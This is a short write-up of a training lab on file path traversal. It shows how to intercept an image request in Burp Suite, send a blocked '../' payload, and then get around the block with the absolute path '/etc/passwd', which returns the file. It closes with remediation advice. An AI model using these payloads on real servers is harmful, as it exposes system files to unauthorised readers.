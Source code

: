 ## 🧪 Lab: File Path Traversal - Traversal Sequences Blocked with Absolute Path Bypass  
**Level**: Practitioner  
**Date**: June 12, 2025  
**Goal**: Read `/etc/passwd` despite traversal sequences being blocked.

---

### 🧰 Tools
- Burp Suite (Repeater / Interceptor)

---

### 🧭 Steps

1. **Find and intercept vulnerable image URL**  
   - Navigate to the product page and intercept the image request:
     ```
     GET /image?filename=218.png
     ```

2. **Send to Repeater**

3. **Attempt traversal payload**
   - Try:
     ```
     filename=../../../etc/passwd
     ```
   - This fails, as traversal sequences are blocked.

4. **Bypass with absolute path**
   - Test direct path injection:
     ```
     filename=/etc/passwd
     ```

5. **Send request**
   - Successful response shows contents:
     ```
     root:x:0:0:root:/root:/bin/bash
     ...
     ```

---

### 💣 Payload
```
/etc/passwd
```

---

### 🔒 Remediation
- Sanitize and validate all user-supplied file paths.
- Use allow-lists for specific, permitted filenames.
- Restrict file access to safe directories only.
- Never allow absolute paths in user-controlled input.